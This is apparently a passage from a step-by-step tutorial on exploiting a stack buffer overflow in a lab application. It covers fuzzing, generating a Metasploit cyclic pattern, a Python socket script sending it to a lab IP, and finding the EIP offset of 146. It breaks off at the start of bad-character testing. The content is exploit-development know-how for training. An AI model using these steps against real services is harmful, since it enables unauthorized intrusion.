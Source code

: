 ```python
	except:
		print('Fuzzing crashed at ' + str(len(buffer)) + ' bytes')
		sys.exit()
```

 - **NOTE:** This script may need to be modified depending on the application.

 - Let's say that it crashed when sending a payload of 200 bytes.

<br>

### 2 - Determining Exactly where the Overflow Occurs
 - Now that we now a Buffer Overflow can occur, we need to find out exactly where the payload overflows.
 - Because the application crashed with a payload of 200 bytes before, that will be the size of our pattern. Let's generate a payload that can do this
```bash
msf-pattern_create -l 200
```

 - Let's now send this payload to the application. We will need to be monitoring this in Immunity Debugger:
```python
import sys, socket
from time import sleep

endpointIp = '192.168.20.141'
endpointPort = 31337

buffer = b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

payload = buffer + b'\r\n'
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print('[+] Connecting ...');
s.connect((endpointIp, endpointPort))
print('[+] Sending Pattern Payload ...')
s.send(payload)
print('[+] Sent')
s.close()
```
 - After the payload is sent we need to take note of the value in the `EIP` register which is `39654138`.
 - We can now use this value to determine exactly where the overflow occurs:
```bash
msf-pattern_offset -l 200 -q 39654138
```
 - From this we find that exact offset is `146`. This means that after the first 146 bytes, the next 4 bytes will overflow into the `EIP` registor. The `ESP` should point to the rest of the payload.

<br>

### 3 - Determining Bad Characters
 - We now need to determine if there are any bad characters that the program rejects and that we can't use in our final payload. Accepted characters will be different for each program so we need to try them all:
```python
import sys, socket
from time import sleep

endpointIp = '192.168.20.141'
endpointPort = 31337

buffer = b'a' * 146 + b'\x04\x03\x02\x01'

```